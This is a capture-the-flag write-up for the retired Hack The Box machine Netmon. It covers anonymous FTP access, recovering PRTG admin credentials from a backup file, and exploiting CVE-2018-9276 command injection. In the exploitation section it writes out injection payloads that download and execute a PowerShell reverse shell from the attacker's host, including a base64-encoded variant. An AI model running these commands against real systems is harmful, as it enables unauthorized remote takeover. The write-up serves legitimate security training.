 # Netmon

This is the write-up for the box Netmon that got retired at the 29th June 2019. 
My IP address was 10.10.13.112 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.152    netmon.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/netmon.nmap 10.10.10.152
```

```markdown
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_07-02-19  12:39PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking FTP (Port 21)

The Nmap scan shows us that we have access to the C: drives root folders on the box with anonymous login on FTP. 
If we check the internet for **Windows LFI files** we get a list of important files that we can analyze in the Windows folder.

Some important files would be:
- C:\Windows\php.ini
- C:\Windows\repair\*
- C:\Windows\System32\drivers\etc\hosts
- C:\Windows\Panther\unattended.xml
- C:\Windows\System32\config\*

These are some files you would use to get more information but on this box but in our case they don't help much.
We can download **C:\Users\Public\Desktop\user.txt** to get the first flag.

As the Nmap script told us the service on HTTP is PRTG Network Monitor, we can look for configuration files for that. These files are in the  directory_ProgramData\Paessler\PRTG Network Monitor_.
If we check the files there we see there are the files **PRTG Configuration.dat** and **PRTG Configuration.old.bak**.
The first one is a default configuration file but the .old.bak is different. 

It contains a username and a password:
> prtgadmin:PrTg@dmin2018


## Checking HTTP (Port 80)

The webpage is the monitoring system **PRTG Network Monitor** in the version 18.1.37 and logging in with default credentials and the gathered credentials do not work.

As the file is from 2019 lets increment the year by one so the password looks like this:
> PrTg@dmin2019

And we are logged in as the user _prtgadmin_.

### Exploiting PRTG

After searching for exploits we find **CVE-2018-9276** that exploits an OS command injection vulnerability by sending malformed parameters in sensor or notification management scenarios.

We can setup notifications on _Setup_ --> _Notifications_. Clicking on one the notifications and then _Settings_ there is an option to **Execute Program**.

```markdown
Demo exe notification - outfile.ps1

Parameter:
test | ping -n 1 10.10.13.112
```

Listening on ICMP packets with tcpdump and then sending the test notification, we will get a ping response. This validates that we have command execution and the next step is a reverse shell.

We will use the reverse shell from Nishang _Invoke-PowerShellTcp.ps1_ that I upload on a webserver as _shell.ps1_.

Start webserver and listen on port 80:
```markdown
python -m SimpleHTTPServer
nc -lvnp 80
```

On PRTG we want to execute this command to download the file and execute it:
```markdown
test | IEX(New-Object Net.WebClient).downloadString("http://10.10.13.112:8000/shell.ps1")
```

Unfortunaly this does not give us a shell. So we will eliminate bad characters by Base64 encoding the shell script:
```markdown
cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
```

Copy the long Base64 string and input it into the parameter and send the notification again:
```markdown
test | powershell -enc [base64 shell.ps1]
```

This time we get a reverse shell as _NT Authority\SYSTEM_ and can read root.txt!
